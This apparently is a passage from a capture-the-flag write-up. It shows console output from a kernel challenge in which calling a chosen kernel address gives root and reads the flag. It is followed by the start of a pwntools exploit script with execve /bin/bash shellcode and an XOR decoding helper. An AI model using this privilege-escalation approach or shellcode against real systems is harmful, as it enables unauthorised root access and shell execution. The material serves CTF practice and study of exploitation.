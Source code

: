 ```bash
It is: ffff88000212c0c0
----- Menu -----
1. Call
2. Show me my uid
3. Read file
4. Any hintz?
5. Bye!
> 1
I need a kernel address to call. Be careful, though or .
> 
18446744071579167184
There is a good chance we will want to pass an argument?
> 
18446612132349001920 
Got call address: 0xffffffff8104e9d0, argument: 0xffff80
flux_baby ioctl nr 900 called
flux_baby ioctl nr 900 called
flux_baby ioctl extracted param ffffffff8104e9d0 as funt
A miracle happened. We came back without crashing! I ev.
It is: 0000000000000000
----- Menu -----
1. Call
2. Show me my uid
3. Read file
4. Any hintz?
5. Bye!
> 2
uid=0(root) gid=0(root)
----- Menu -----
1. Call
2. Show me my uid
3. Read file
4. Any hintz?
5. Bye!
> 3
Which file are we trying to read?
> /flag
Here are your 0xf bytes contents: 
flag{testflag}

```
### baby exploit
modify the jump offset to input， and we can control 7 bytes, so we first use 7 byte to make a read syscall to read the shellcode , and then jump to the shellcode.
```python
from pwn import *

context.arch = 'amd64'

sc = "\xeb\x0b\x5f\x48\x31\xd2\x52\x5e\x6a\x3b\x58\x0f\x05\xe8\xf0\xff\xff\xff\x2f\x2f\x2f\x2f\x62\x69\x6e\x2f\x2f\x2f\x2f\x62\x61\x73\x68\x00"


def decrypt(s):
    sc_list = map(ord, list(s))
    for i in range(len(sc_list) - 2, -1, -1):
      sc_list[i] = sc_list[i+1] ^ sc_list[i]
    sc =  eval(repr(''.join(map(chr, sc_list))))
    return sc



```